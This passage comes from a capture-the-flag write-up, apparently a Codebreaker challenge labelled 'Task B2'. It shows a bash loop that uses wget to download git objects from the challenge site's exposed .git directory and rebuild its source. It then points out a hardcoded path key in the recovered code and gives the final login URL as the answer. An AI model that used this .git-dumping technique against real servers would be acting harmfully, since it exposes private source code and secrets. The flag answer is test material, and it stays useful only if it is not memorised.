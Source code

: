 ```sh
myArray+=("10917973126c691eae343b530a5b34df28d18b4f")        
myArray+=("app/templates/forum.html")
myArray+=("fe3dcf0ca99da401e093ca614e9dcfc257276530")        
myArray+=("app/templates/home.html")
myArray+=("779717af2447e24285059c91854bc61e82f6efa8")        
myArray+=("app/templates/lock.html")
myArray+=("0556cd1e1f584ff5182bbe6b652873c89f4ccf23")        
myArray+=("app/templates/login.html")
myArray+=("56e0fe4a885b1e4eb66cda5a48ccdb85180c5eb3")        
myArray+=("app/templates/navbar.html")
myArray+=("ed1f5ed5bc5c8655d40da77a6cfbaed9d2a1e7fe")        
myArray+=("app/templates/unauthorized.html")
myArray+=("c980bf6f5591c4ad404088a6004b69c412f0fb8f")        
myArray+=("app/templates/unlock.html")
myArray+=("470d7db1c7dcfa3f36b0a16f2a9eec2aa124407a")        
myArray+=("app/templates/userinfo.html")
myArray+=("48847a686dddb92c50b91f7fa4693de27e02c67f")        
myArray+=("app/util.py")

for (( i=1; i<${#myArray[@]}; i+=2 )); do 
	t=${myArray[i-1]}
	s=${myArray[i]}

	a=${t:0:2}
	b=${t:2:`echo $t | wc -c`}

	mkdir ./.git/objects/$a
	wget https://zgoxzopogsqkolvv.ransommethis.net/.git/objects/$a/$b -P ./.git/objects/$a/
	git cat-file -p $t > ./$s
	
done
```

Now that we have access to the complete source code, we can analyze the code and find out where the login page is located. 

One aspect that stands out from the `server.py` script is the addition of a hardcoded key that the web server requires before accessing any actual content from the server. Appending this `key` to the url sends us to the `login.html` page!

```python
def expected_pathkey():
	return "aibtrqzgecledjgo"
```

The correct answer:

`https://zgoxzopogsqkolvv.ransommethis.net/aibtrqzgecledjgo`

![Task B2 Badge](/posts/badgeb2.png "Task B2 Badge")

- - -